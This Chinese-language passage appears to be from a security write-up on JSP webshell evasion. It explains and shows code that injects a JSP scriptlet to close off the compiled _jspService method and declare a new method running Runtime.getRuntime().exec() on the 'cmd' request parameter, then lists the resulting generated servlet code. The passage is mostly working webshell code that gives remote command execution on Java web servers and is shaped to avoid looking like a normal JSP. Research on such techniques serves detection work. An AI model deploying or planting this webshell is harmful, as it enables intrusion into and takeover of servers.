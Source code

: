 那么很容易想到，是否可以在jsp中注入代码，闭合掉其他上面的_jspService方法，再闭合掉后续的代码，新建一个函数或者代码块进行恶意操作执行。这样生成的jsp会看起来是个不正常的jsp文件。

实现如下：

```java
<%
        foo(request.getParameter("cmd"));
    }catch (Exception e) {}
    }
    public void foo(String cmd) throws Exception{
        try {
            Runtime.getRuntime().exec(cmd);
        }catch (Exception e) {
        }
        JspWriter _jspx_out = null;
        JspWriter out;
        HttpServletResponse response = null;
        PageContext _jspx_page_context = null;
        JspFactory _jspxFactory = null;
        try{
%>
```

再次访问Webshell，生成的java文件如下，成功的新生成了一个名为foo的函数，并在原本的_jspService逻辑中进行了调用。

```java
public void _jspService(final javax.servlet.http.HttpServletRequest request, final javax.servlet.http.HttpServletResponse response)
    throws java.io.IOException, javax.servlet.ServletException {
 ...
  try {
    response.setContentType("text/html");
    pageContext = _jspxFactory.getPageContext(this, request, response,
                null, true, 8192, true);
    _jspx_page_context = pageContext;
    application = pageContext.getServletContext();
    config = pageContext.getServletConfig();
    session = pageContext.getSession();
    out = pageContext.getOut();
    _jspx_out = out;

      foo(request.getParameter("cmd"));
  }catch (Exception e) {}
  }
  public void foo(String cmd) throws Exception{
      try {
          Runtime.getRuntime().exec(cmd);
      }catch (Exception e) {
      }
      JspWriter _jspx_out = null;
      JspWriter out;
      HttpServletResponse response = null;
      PageContext _jspx_page_context = null;
      JspFactory _jspxFactory = null;
      try{

  } catch (java.lang.Throwable t) {
   ...
}
```
